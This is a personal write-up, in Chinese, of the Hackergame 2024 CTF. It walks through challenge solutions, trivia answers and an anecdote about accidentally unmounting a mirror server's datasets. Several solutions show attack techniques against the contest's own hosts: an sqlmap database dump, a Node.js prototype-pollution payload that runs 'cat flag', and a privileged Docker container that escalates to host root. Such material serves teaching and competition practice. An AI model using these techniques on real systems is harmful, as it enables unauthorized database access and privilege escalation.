


## Hackergame2024 WP

见[blog](https://blog.palve.moe/2024/11/Hackergame2024_writeups/)

### ~~废话~~

今年的 Hackergame 鸽了，撞上了强网，~~被打的找不到北~~。按照惯例，今年也简单的做一下吧

最终名次 392/2460 ，以下 wp 包含了已做出和部分有思路但没时间继续做的题，最后一次 flag 提交时间为 2024-11-03 18:50:45 ，排名 142 

本来想着~~裤裆里还藏了6个flag~~，在结束之前交上狠狠上一波分，结果睡过了头🤡

凭个人的一己之力，成功为 hg2024 贡献了两个花絮

历年官方题解：

​	[2023](https://github.com/ustc-hackergame/hackergame2023-writeups)

​	[2022](https://github.com/ustc-hackergame/hackergame2022-writeups)

​	[2021](https://github.com/ustc-hackergame/hackergame2021-writeups)

​	[2020](https://github.com/ustc-hackergame/hackergame2020-writeups)

​	[2019](https://github.com/ustclug/hackergame2019-writeups)

​	[2018](https://github.com/ustclug/hackergame2018-writeups/)

### 签到

```
/?pass=true
```

签到当然是签到，参考历年的做法，先疯狂点击`等不及了，马上启动!`然后改 `false` 为 `true` 就可得 flag

### 喜欢做签到的 CTFer 你们好呀

```bash
env
cat .flag
```

快来一起 `sudo` 看奶龙，据说看完奶龙会得到flag  ~~我才是奶龙（大雾~~

当时先做出来的是 `Checkin Again & Again` ，简单粗暴的 `ls -alh` 就看到了flag。`Checkin Again` 其实是实在找不到在哪，遂看起了网页源代码，瞎拖看到了 `NixOS` ，狂拍脑袋就得到了第一问的 flag。

### 猫咪问答（Hackergame 十周年纪念版）

#### 1.在 Hackergame 2015 比赛开始前一天晚上开展的赛前讲座是在哪个教室举行的？

`3A204`

见https://lug.ustc.edu.cn/wiki/sec/contest.html

#### 2.众所周知，Hackergame 共约 25 道题目。近五年（不含今年）举办的 Hackergame 中，题目数量最接近这个数字的那一届比赛里有多少人注册参加？

`2682`

见https://lug.ustc.edu.cn/news/2019/12/hackergame-2019/

#### 3.Hackergame 2018 让哪个热门检索词成为了科大图书馆当月热搜第一？

`程序员的自我修养`

见 [花絮](https://github.com/ustclug/hackergame2018-writeups/blob/master/misc/others.md)

#### 4.在今年的 USENIX Security 学术会议上中国科学技术大学发表了一篇关于电子邮件伪造攻击的论文，在论文中作者提出了 6 种攻击方法，并在多少个电子邮件服务提供商及客户端的组合上进行了实验？

`336`

见https://www.usenix.org/system/files/usenixsecurity24_slides-ma-jinrui.pdf

#### 5.10 月 18 日 Greg Kroah-Hartman 向 Linux 邮件列表提交的一个 patch 把大量开发者从 MAINTAINERS 文件中移除。这个 patch 被合并进 Linux mainline 的 commit id 是多少？

`6e90b6`

见https://lore.kernel.org/all/769032f6-2f20-406c-99df-92acd2c1269a@metux.net/

```
This is following the logic of commit
6e90b675cf942e50c70e8394dfb5862975c3b3b2.
```

#### 6.大语言模型会把输入分解为一个一个的 token 后继续计算，请问这个网页的 HTML 源代码会被 Meta 的 Llama 3 70B 模型的 tokenizer 分解为多少个 token？

`1833`

~~我不会啊 爆破一下吧~~


### 打不开的盒

找个在线查看的网址，切割即可拿到flag


### 每日论文太多了！

下载PDF后全局搜 `flag` ，会发现有个 `flag here` ，编辑 PDF ，给那个图片挪开就能看到 flag


### 比大小王

~~我可是比大小高手~~ 通过对题目请求的抓包可以发现，每次选择后会有 200 毫秒不能操作，可以尝试劫持响应包来解这一限制。但是当修改完响应包再次提交答案之后，后端会返回`检测到异常提交` 并且不返回任何报错（挠头。

修改了后端返回的题目之后还是过不了 (大怒

最终从 js 入手，在修改了选择的限制之后，在控制台执行了以下 js 代码后得到 flag

```javascript
function f() {
  if (state.score1 < 100) {
    if (state.value1 < state.value2) {
      chooseAnswer('<');
    } else {
      chooseAnswer('>');
    }
    setTimeout(f, 1);
  }
}

f();

function chooseAnswer(choice) {
  if (!state.allowInput) {
    return;
  }
  state.inputs.push(choice);
  let correct;
  if (state.value1 < state.value2 && choice === '<' || state.value1 > state.value2 && choice === '>') {
    correct = true;
    state.score1++;
    document.getElementById('answer').style.backgroundColor = '#5e5';
  } else {
    correct = false;
    document.getElementById('answer').style.backgroundColor = '#e55';
  }
  document.getElementById('answer').textContent = choice;
  document.getElementById('score1').textContent = state.score1;
  document.getElementById('progress1').style.width = `${state.score1}%`;
  state.allowInput = false;
  setTimeout(() => {
    if (state.score1 === 100) {
      submit(state.inputs);
    } else if (correct) {
      state.value1 = state.values[state.score1][0];
      state.value2 = state.values[state.score1][1];
      state.allowInput = true;
      document.getElementById('value1').textContent = state.value1;
      document.getElementById('value2').textContent = state.value2;
      document.getElementById('answer').textContent = '?';
      document.getElementById('answer').style.backgroundColor = '#fff';
    } else {
      state.allowInput = false;
      state.stopUpdate = true;
      document.getElementById('dialog').textContent = '你选错了，挑战失败！';
      document.getElementById('dialog').style.display = 'flex';
    }
  }, 1);  // 200 改成 1
}
```


### 旅行照片 4.0

第一问

百度地图直接搜 `科里科气科创驿站 （科大站）` 即可找到正确位置，距离 「**东校区西门**」更近

第二问

直接搜 **USTC** 、**LEO**、**中科大** ，找到对应的 [Bilibili 账户](https://space.bilibili.com/7021308/)，然后翻看对应的 [帖子](https://www.bilibili.com/opus/930934582351495204)

第三问

观察到右边黑色垃圾桶上有 `六安` 二字，遍历所有和该城市有关的公园就行

第四问

石头是截流石，然后Google一下图片会发现有个携程的网页上写了`坛子岭`

第五问和第六问

先搜 `四编组动车` ，然后再搜网页里提到的 `CRH6` ，翻到 [Wikipedia]([https://zh.wikipedia.org/wiki/%E5%92%8C%E8%B0%90%E5%8F%B7CRH6%E5%9E%8B%E7%94%B5%E5%8A%9B%E5%8A%A8%E8%BD%A6%E7%BB%84](https://zh.wikipedia.org/wiki/和谐号CRH6型电力动车组)) 后可以看到一辆标有`怀密线` 的红色列车，与题目比较相符，顺手搜索对应线路，找到 **北京北动车运用所** ，旁边就是 **积水潭医院** 。


### PaoluGPT ~~跑路GPT~~

#### 千里挑一

~~众所周知，~~这么多 chat history 里找那个 flag 不现实，那就简单粗暴的给所有页面爬下来搜flag

```python
import requests
from bs4 import BeautifulSoup

base_url = "https://chal01-b3z64rsh.hack-challenge.lug.ustc.edu.cn:8443"

headers = {
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "Accept-Encoding": "gzip, deflate, br, zstd",
    "Accept-Language": "zh-CN,zh;q=0.9",
    "Cache-Control": "no-cache",
    "Connection": "keep-alive",
    "Cookie": "changeme",
    "Host": "chal01-b3z64rsh.hack-challenge.lug.ustc.edu.cn:8443",
    "Pragma": "no-cache",
    "Referer": "https://chal01-b3z64rsh.hack-challenge.lug.ustc.edu.cn:8443/list",
    "Sec-Fetch-Dest": "document",
    "Sec-Fetch-Mode": "navigate",
    "Sec-Fetch-Site": "same-origin",
    "Sec-Fetch-User": "?1",
    "Upgrade-Insecure-Requests": "1",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36",
    "sec-ch-ua": '"Chromium";v="130", "Google Chrome";v="130", "Not?A_Brand";v="99"',
    "sec-ch-ua-mobile": "?0",
    "sec-ch-ua-platform": '"Windows"'
}

response = requests.get(base_url + "/list", headers=headers)
if response.status_code != 200:
    print(f"访问失败状态码: {response.status_code}")
    exit()

soup = BeautifulSoup(response.text, "html.parser")

view_links = []
for link in soup.find_all("a"):
    href = link.get("href")
    if href and "view?conversation_id=" in href:
        view_links.append(href)

with open("output.txt", "w", encoding="utf-8") as output_file:
    for link in view_links:
        response = requests.get(base_url + link, headers=headers)
        if response.status_code == 200:
            soup = BeautifulSoup(response.text, "html.parser")
            content = soup.get_text(separator="\n").strip()
            output_file.write(content + "\n\n")
            print(f"成功访问: {link}")
        else:
            print(f"访问失败: {link}，状态码: {response.status_code}")

print("saved to output.txt")

```



为什么不是114154行 （😡

####  窥视未知

当时挠破脑袋都没想到未知到底未知到哪了，看完附件之后恍然~~大雾~~ （确诊为未为注意力不集中导致的

**attention is all you need!**

`sqlmap --cookie dump` 一把嗦

```bash
sqlmap -u "https://chal01-yh8m6qof.hack-challenge.lug.ustc.edu.cn:8443/view?conversation_id=3e82ebb0-cc9e-4f12-b76c-d35c0d979bf5" --cookie "changeme" --dbms=sqlite --dump | grep 'flag'
```

拖出来之后搜flag即可得到藏着的flag

对应的文章的uuid应该是`24052425-8f7e-4e97-bdc5-b10f13d9538d` `请详细解释以下名词： 水产养殖业中的现状`



### Node.js is Web Scale（藏裤裆的flag

这个题考的是 **Node.js 原型链污染** ，阅读题目源码后，设置key为 `__proto__.cmd` ，value是`cat flag`

访问 `/execute?cmd=cmd` 就能得到 flag


### 强大的正则表达式（藏裤裆的flag

第一问

阅读源码后知道需要实现16的取模，能否被16整除只需要看后4位，只需要~~暴力匹配~~后四位即可得到 flag ，见以下借助GPT得到的逆天表达式

```
(0|1|2|3|4|5|6|7|8|9)*((0|2|4|6|8)(000|016|032|048|064|080|096|112|128|144|160|176|192|208|224|240|256|272|288|304|320|336|352|368|384|400|416|432|448|464|480|496|512|528|544|560|576|592|608|624|640|656|672|688|704|720|736|752|768|784|800|816|832|848|864|880|896|912|928|944|960|976|992)|(1|3|5|7|9)(008|024|040|056|072|088|104|120|136|152|168|184|200|216|232|248|264|280|296|312|328|344|360|376|392|408|424|440|456|472|488|504|520|536|552|568|584|600|616|632|648|664|680|696|712|728|744|760|776|792|808|824|840|856|872|888|904|920|936|952|968|984|1000))
```


### 惜字如金3.0

#### 题目A

最简单了，填空题

``` python
#!/usr/bin/python3                                                              
                                                                                
import atexit, base64, flask, itertools, os, re                                 
                                                                                
                                                                                
def crc(input: bytes) -> int:                                                   
    poly, poly_degree = 'AaaaaaAaaaAAaaaaAAAAaaaAAAaAaAAAAaAAAaaAaaAaaAaaA', 48 
    assert len(poly) == poly_degree + 1 and poly[0] == poly[poly_degree] == 'A' 
    flip = sum(['a', 'A'].index(poly[i + 1]) << i for i in range(poly_degree))  
    digest = (1 << poly_degree) - 1                                             
    for b in input:                                                             
        digest = digest ^ b                                                     
        for _ in range(8):                                                      
            digest = (digest >> 1) ^ (flip if digest & 1 == 1 else 0)           
    return digest ^ (1 << poly_degree) - 1                                      
                                                                                
                                                                                
def hash(input: bytes) -> bytes:                                                
    digest = crc(input)                                                         
    u2, u1, u0 = 0xCb4EcdfD0A9F, 0xa9dec1C1b7A3, 0x60c4B0aAB4Bf                 
    assert (u2, u1, u0) == (223539323800223, 186774198532003, 106397893833919)  
    digest = (digest * (digest * u2 + u1) + u0) % (1 << 48)                     
    return digest.to_bytes(48 // 8, 'little')                                   
                                                                                
                                                                                
def xzrj(input: bytes) -> bytes:                                                
    pat, repl = rb'([B-DF-HJ-NP-TV-Z])\1*(E(?![A-Z]))?', rb'\1'                 
    return re.sub(pat, repl, input, flags=re.IGNORECASE)                        
                                                                                
                                                                                
paths: list[bytes] = []                                                         
                                                                                
xzrj_bytes: bytes = bytes()                                                     
                                                                                
with open(__file__, 'rb') as f:                                                 
    for row in f.read().splitlines():                                           
        row = (row.rstrip() + b' ' * 80)[:80]                                   
        path = base64.b85encode(hash(row)) + b'.txt'                            
        with open(path, 'wb') as pf:                                            
            pf.write(row)                                                       
            paths.append(path)                                                  
            xzrj_bytes += xzrj(row) + b'\r\n'                                   
                                                                                
    def clean():                                                                
        for path in paths:                                                      
            try:                                                                
                os.remove(path)                                                 
            except FileNotFoundError:                                           
                pass                                                            
                                                                                
    atexit.register(clean)                                                      
                                                                                
                                                                                
bp: flask.Blueprint = flask.Blueprint('answer_a', __name__)                     
                                                                                
                                                                                
@bp.get('/answer_a.py')                                                         
def get() -> flask.Response:                                                    
    return flask.Response(xzrj_bytes, content_type='text/plain; charset=UTF-8') 
                                                                                
                                                                                
@bp.post('/answer_a.py')                                                        
def post() -> flask.Response:                                                   
    wrong_hints = {}                                                            
    req_lines = flask.request.get_data().splitlines()                           
    iter = enumerate(itertools.zip_longest(paths, req_lines), start=1)          
    for index, (path, req_row) in iter:                                         
        if path is None:                                                        
            wrong_hints[index] = 'Too many lines for request data'              
            break                                                               
        if req_row is None:                                                     
            wrong_hints[index] = 'Too few lines for request data'               
            continue                                                            
        req_row_hash = hash(req_row)                                            
        req_row_path = base64.b85encode(req_row_hash) + b'.txt'                 
        if not os.path.exists(req_row_path):                                    
            wrong_hints[index] = f'Unmatched hash ({req_row_hash.hex()})'       
            continue                                                            
        with open(req_row_path, 'rb') as pf:                                    
            row = pf.read()                                                     
            if len(req_row) != len(row):                                        
                wrong_hints[index] = f'Unmatched length ({len(req_row)})'       
                continue                                                        
            unmatched = [req_b for b, req_b in zip(row, req_row) if b != req_b] 
            if unmatched:                                                       
                wrong_hints[index] = f'Unmatched data (0x{unmatched[-1]:02X})'  
                continue                                                        
            if path != req_row_path:                                            
                wrong_hints[index] = f'Matched but in other lines'              
                continue                                                        
    if wrong_hints:                                                             
        return {'wrong_hints': wrong_hints}, 400                                
    with open('answer_a.txt', 'rb') as af:                                      
        answer_flag = base64.b85decode(af.read()).decode()                      
        closing, opening = answer_flag[-1:], answer_flag[:5]                    
        assert closing == '}' and opening == 'flag{'                            
        return {'answer_flag': answer_flag}, 200                                
```


### 优雅的不等式（藏裤裆的flag

#### Easy

偷懒问 AI 直接得到表达式 `4*((1-x**2)**(1/2)-(1-x**2))`


### 无法获得的秘密 （藏裤裆的flag

之前在网上冲浪看到过一个用二维码来传输数据的帖子，恰好可以用在这道题上

在 Github 上搜 repo `qrtransfer`

然后手机对着扫码就能得到秘密


### ZFS （藏裤裆的flag、花絮

作为 zfs ~~资深玩家~~，那么恢复几个文件肯定是绰绰有余，先给对应的镜像拖下来挂载到 mirrors上（敲重点，~~后边要考~~）。拿到对应的 pool 之后先查看对应的快照 `zfs list -t snapshot` ，恢复其中的快照之后还是没看到对应的文件（挠头

既然是 zfs ，肯定可以 `zfs send` ，默认情况下是明文发送的，那么手搓一个stream 文件直接 grep 就能得到flag

第二问我用 `testdisk` 恢复出来一个 shell script (f0008452.sh)，不会做，放弃 （我怎么没用想到用zdb啊 悲）

```bash
#!/bin/sh
flag_key="hg2024_$(stat -c %X.%Y flag1.txt)_$(stat -c %X.%Y "$0")_zfs"
echo "46c518b175651d440771836987a4e7404f84b20a43cc18993ffba7a37106f508  -" > /tmp/sha256sum.txt
printf "%s" "$flag_key" | sha256sum --check /tmp/sha256sum.txt || exit 1
printf "flag{snapshot_%s}\n" "$(printf "%s" "$flag_key" | sha1sum | head -c 32)"
```

在做完这道题之后，**下意识**的执行了以下命令，进一步导致mirrors体面

```bash
sudo zfs unmount -a
```

其实执行之后发现有一段时间的卡顿，遂立即 `CTRL+C` 停止，幸运的是，hg2024 被成功 unmount 了，不幸的是，ubuntu 这个 repo 也被 unmount 掉了，其他 repo 暂时不受影响。至此，当事人并未发现任何异常，也没有检查原有的 dataset 的挂载状态便登出了服务器，直到...... 邮件一记[重锤](https://github.com/NYIST-CIPS/issues/issues/11)狠狠敲在当事人脑门。

见以下聊天记录	**hg 如何让几百公里外的镜像站体面**

```
Palve, [2024/11/2 21:41]
草

Palve, [2024/11/2 21:41]
我uuu的源呢

ξ | Ver 1, [2024/11/2 21:41]
🤣🤣🤣

Harry, [2024/11/2 21:42]
挂上了吗？

Palve, [2024/11/2 21:43]
好了

Palve, [2024/11/2 21:43]
为什么会掉mount point

Haruhi, [2024/11/2 21:44]
因为你在老的inode上面

Palve, [2024/11/2 21:46]
破案了

Palve, [2024/11/2 21:47]
那会做 hackergame 的时候卸载 hg2024 这个 pool 时错误的下意识执行了 sudo zfs unmount -a

Keyu Tao, [2024/11/2 21:48]
不是，你用 mirrors 服务器做 hg 题目吗

ξ | Ver 1, [2024/11/2 21:49]
怎么大家都这么坏人

Palve, [2024/11/2 21:49]
包的（

Palve, [2024/11/2 21:50]
手头有zfs模块的就剩mirrors了

Haruhi, [2024/11/2 21:50]
不是，你用 mirrors 服务器做 hg 题目吗

Palve, [2024/11/2 21:50]
我还用mirrors的机器编译kernel

Palve, [2024/11/2 21:50]
还有其他妙妙二进制

𝖎𝕭𝖚𝖌 🌞, [2024/11/2 21:50]
编译东西还好吧

𝖎𝕭𝖚𝖌 🌞, [2024/11/2 21:51]
你拿这个 zfs 直接做题，还 umount -a。。。

𝖎𝕭𝖚𝖌 🌞, [2024/11/2 21:51]
艺高人胆大，但是就怕一不小心就翻车了

Palve, [2024/11/2 21:51]
我当时执行完之后就 CTRL+C 了

Palve, [2024/11/2 21:52]
最终只有这一个 repo 被成功 unmount

𝖎𝕭𝖚𝖌 🌞, [2024/11/2 21:53]
《hg 如何让几百公里外的镜像站体面》


```


### Docker for Everyone Plus  （藏裤裆的flag

第一问简单，Windows 用户只需要一个 xshell 即可解决使用 ZMODEM 传输文件的问题

其实最主要的还是要进到 /tmp 或 tmpfs下，不然会传不上去

先在本地手动构建一个镜像

```dockerfile
FROM docker.io/library/alpine:latest

RUN apk add su-exec && chmod +s /sbin/su-exec
```

本地导出后上传到环境中， 使用 `sudo docker image load` 导入，执行以下命令即可得到 flag

```shell
docker run --rm -u 1000:1000 -it --privileged -v /:/mnt:ro alpine  
exec su-exec root /bin/ash
cat /mnt/flag
```

### 零知识数独

只会个第一问，简单粗暴的修改响应包然后就能拿到 香香软软的 flag

```
'use strict';
(self.webpackChunk_N_E = self.webpackChunk_N_E || []).push([
  [83],
  {
    5019: (e, i) => {
      Object.defineProperty(i, '__esModule', { value: !0 }),
        (i.BASE_LAYOUT = void 0),
        (i.BASE_LAYOUT = [
          [0, 1, 2, 3, 4, 5, 6, 7, 8],
          [9, 10, 11, 12, 13, 14, 15, 16, 17],
          [18, 19, 20, 21, 22, 23, 24, 25, 26],
          [27, 28, 29, 30, 31, 32, 33, 34, 35],
          [36, 37, 38, 39, 40, 41, 42, 43, 44],
          [45, 46, 47, 48, 49, 50, 51, 52, 53],
          [54, 55, 56, 57, 58, 59, 60, 61, 62],
          [63, 64, 65, 66, 67, 68, 69, 70, 71],
          [72, 73, 74, 75, 76, 77, 78, 79, 80],
        ]);
    },
    2042: (e, i) => {
      Object.defineProperty(i, '__esModule', { value: !0 }),
        (i.DIFFICULTY_LEVELS = void 0),
        (i.DIFFICULTY_LEVELS = ['easy', 'medium', 'hard', 'expert']);
    },
    5180: (e, i) => {
      Object.defineProperty(i, '__esModule', { value: !0 }),
        (i.SEEDS = void 0),
        (i.SEEDS = [
          {
            puzzle:
              'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa-',
            solution:
              'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa',
            difficulty: 'easy',
          },
          {
            puzzle:
              'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa-',
            solution:
              'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa',
            difficulty: 'medium',
          },
          {
            puzzle:
              'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa-',
            solution:
              'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa',
            difficulty: 'hard',
          },
          {
            puzzle:
              'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa-',
            solution:
              'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa',
            difficulty: 'expert',
          },
        ]);
    },
```

